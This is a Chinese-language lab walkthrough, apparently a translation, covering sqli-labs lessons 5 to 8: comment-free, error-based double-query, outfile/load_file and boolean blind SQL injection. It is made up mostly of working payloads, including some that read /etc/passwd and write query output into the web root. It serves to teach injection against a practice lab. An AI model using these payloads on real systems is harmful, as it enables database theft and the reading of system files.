###第五课：不用注释来查询

在这节中，我们来学习怎么进行基于错误的双引号注入攻击，如下两个注入：

`?id=1′ AND ’2 `

`?id=3′ AND ’4`



注入这两个代码后，数据库显示不同的用户名和密码。现在我们使用联合查询命令来从数据库中得到更多的敏感信息。下面是我们使用的查询语句：

`-6′ union select 5, version(),3 AND ’1`

这次的查询我们使用version()函数懒探测数据库的版本；同样，我们可以用其他不同的查询来从数据库中检索更多的信息。现在我们使用下面的查询来得到当前用户名:

`-6′ union select 5,current_user,3 AND ’1`



**译者注**

这个小节的核心内容是用 and 1（数字型）或者and '1(单引号)来代替--+之类的注释符号。

注意 and 1 不同于 and id=1，如下图所示：

###第六课：双注入-双引号

在这几种我们将会学习怎么进行基于错误的双引号注入攻击，如下图所示：

`?id=3`

注入查询后，我们可以看到屏幕上出现了一条sql错误信息。在继续之前，我们来讨论一些sql的基本函数（对于程序员和测试者一视同仁）。我们从count函数开始，它会返回行数。

`select count(*) from information_schema.tables;` 

我们来尝试下另一个随机函数。用这个函数我们可以得到一个介于0和1之间的一个随机值。

`select rand() ;`

另一个我们要使用的有趣函数是group by语句；我们来看一个例子：

`select table_name, table_schema from information_schema.tables group by table_schema`



现在我们回到正题，怎么样从一个SQL错误信息中下载数据库。

选择数据库:

`select database();`

它显示了我们当前的数据库security。现在我们往（select databas()）里添加一些东西，我们用这个查询来联结输出。

`select concat((select database())); `

现在我们来添加一些有趣的显示，如下：

`select concat(0x3a,0x3a(select database()),0x3a,0x3a) `

0x3a是十六进制。

将这些查询语句复制到Notepad中，以便我们来构造。



因为**select concat(0x3a,0x3a(select database()),0x3a,0x3a)**这条语句太长，我们来给它一个较短的名字，如a。

现在查询语句变成了这样：

`select concat(0x3a,0x3a(select database()),0x3a,0x3a)a;`

我们再把这条语句复制到Notepad中。



现在我们再给它加入一些随机性。

`select concat(0x3a,0x3a(select database()),0x3a,0x3a, floor (rand()*2))a;`



复制Notepad。

现在我们通过选择一个任意的表，来添加多个值，如下：

`select concat(0x3a,0x3a(select database()),0x3a,0x3a, floor (rand()*2)) a from information_schema.columns;`



通过执行这条查询语句，我们可以看到行数。

复制到Notepad。



现在你可以从information_schema中选择任何你想要的数据包和数据库了。如下：

`select concat(0x3a,0x3a(select database()),0x3a,0x3a, floor (rand()*2)) a from information_schema.tables;`



执行这条语句后，我们同样可以看到行数。



复制字符串。

现在我们将得到的字符串分组，并将其作为另一个字段添加到之前的字符串里，如下：

`select count(*),concat(0x3a,0x3a(select database()),0x3a,0x3a, floor (rand()*2)) a from information_schema.tables group by a;`

现在，我们从上图的输出中可以看到60:0和67:1。我们将继续接着执行三到四次查询，如下：

在几次尝试后，我们会得到一个错误信息，因为随机数字重复了。

复制到NotePad。

但是在错误信息里，它告诉了我们核心信息，数据库的名字security，这正是我们想要知道的。我们再来问下它版本名。

`select count(*),concat(0x3a,0x3a(select version()),0x3a,0x3a, floor (rand()*2)) a from information_schema.columns group by a;`

如下图，它告诉了我们版本名。

让我们尝试下载数据库用户：

`select count(*),concat(0x3a,0x3a(select user()),0x3a,0x3a, floor (rand()*2)) a from information_schema.columns group by a;`

使用这个查询几次后，它同样产生了一个SQL错误，并且告诉了我们username。



通过这个技术，我们可以利用SQL的错误信息从数据库下载信息。

##第七课 通过outfile函数来下载数据库

在这节中，我们将要学习怎么下载数据库，我们以截断SQL查询开始，如下：

`?id=1′–-+`



现在我们将要绕过前台在后台讨论一些函数。在你的终端中启动mysql，选择数据库security。

`use security;`

我们通过基本的命令来下载数据库：

`select * from users;`

现在我们来下载数据库，然后通过使用一个叫做“outfile”的函数来让mysql将数据库的内容写到一个文件中，所以查询命令如下：

`select * from users into outfile “/tmp/tests.txt”`

我们来看下test.txt文件的内容。



我们还有另一个叫做“dumpfile”的函数，dumpfile只能使用一行，所以我们再下载数据库的使用，给一个限制。

`select * from users limit 0,1 into dumpfile “/tmp/test2.txt”`

还有一个用来导入文件的函数。它可以用来从文件系统中将文件导入到mysql中，下面是它的查询命令：

`select load_file(“etc/passwd”);`

它已经下载了密码文件。



综合上述，我们将密码的下载到一个文件中。查询命令如下：

`select load_file(“etc/passwd”) into outfile “tmp/test4.txt”;`



让我们来看下test4.txt文件。



现在哦我们回到前台部分，在地址栏里输入如下查询：

`?id=2")) union select 1,2,3 into outfile “/var/www/sqli-labs/Less-7/union2.txt” –-+`



现在来检查下union2.txt文件。

通过这种方式，我们可以改变输入的查询命令来获得更多的信息，例如数据库版本，当前用户等，就像我们之前的几节课里所演示的那样。

#第八课：基于布尔-单引号-盲注

在这节中，我们将要学习实施盲注，我们从枚举开始，尝试截断查询。

`?id=1′`

`?id=1)`



注入了一些查询后，会发现我们并没有在屏幕上看到错误信息。因此我们不能确定在这个网页上是否存在注入。这也是为什么这种类型的注入叫做盲注。通常有两种类型盲注，基于布尔的和基于时间的注入。

我们从一些基础开始。启动mysql，并选择默认的数据库：

`use security;`



现在我们来介绍一个新的函数，length()：

`select length(database());`

让我们来向数据库提问些问题，如数据库的第一个字符是否是什么，如果数据库的第一个字符是S，他就会返回一个是真的回答。如果第二个字符是A，那么数据库会的回答将会是假，因为A不属于数据库的名字，但是E也会返回真。现在我们用另一种技术，我们可以通过这种技术来改变我们查询的方法和她返回的方法。有一个可以将字符串截断为几个部分的函数，他叫做substr。查询如下：

`select substr(database(),1,1);`



我们来使用一个叫做ASCII的新函数。这个函数可以用来将字符串转化为ASCII值。这会使我们建设侧数据库的第一个字母变的更容易，如下图所示。我们有一个115的值，使用到的查询为：

`select ascii(substr(database(),1,1));`



现在我们在ASCII表中来查一下115。

检查下第二个字母E的值。它是101。

我们在mysql查询中来查下值：

`select ascii(substr(database(),2,1));`



用这种方式，我们可以得到更多的ASCII值，我们来评估下查询

`Select ascii(substr(database(),2,1)) = 101;`

等于101。

是的，它是真的。返回的值是1，因为字母E的ASCII码为101。

下面我们来使用这个查询：

`select ascii(substr(database(),2,1)) < 101;`

结果是假的。因为它等于0，ASCII的值不是小于101，我们来尝试通过下面的这个查询来猜一下第三个字符。

`select ascii(substr(database(),3,1)) < 101;`

结果为1，这意味着是真。所以让它变成97。使用

`select ascii(substr(database(),3,1)) < 97;`

结果是0；它意味着假，因此有效的值应该在97到101之间。所以现在继续尝试来猜97到101之间的所有值。

我们得到了第三个值是99，在ASCII表中找下它。

我们在URL中使用这个查询。

`?id=1′ AND (ascii(substr((select database()) ,3,3)) = 99 –-+`

屏幕上显示 you are in .........。

这意味着99是真的。



如果我们将99改为98，会发生什么：

`?id=1′ AND (ascii(substr((select database()) ,3,3)) = 98`

我们可以看到屏幕上没有发生什么，我们可以得出得到了一个错误。

我们开始枚举数据库，查询是

`id=1′ AND (ascii(substr((select table_name information_schema.tables where table_schema=database()limit 0,1) ,1,1)) < 105 –-+`

我们可以看到信息：You are in ......。这意味着为真。



现在让我们尝试下101：

`id=1′ AND (ascii(substr((select table_name information_schema.tables where table_schema=database()limit 0,1) ,1,1)) = 101 –-+`

现在可以看到一个信息：
You are in .......。

它意味着Email的第一个字母是E。

**译者注：**

Note:在URL中，使用的是AND而不是UNION。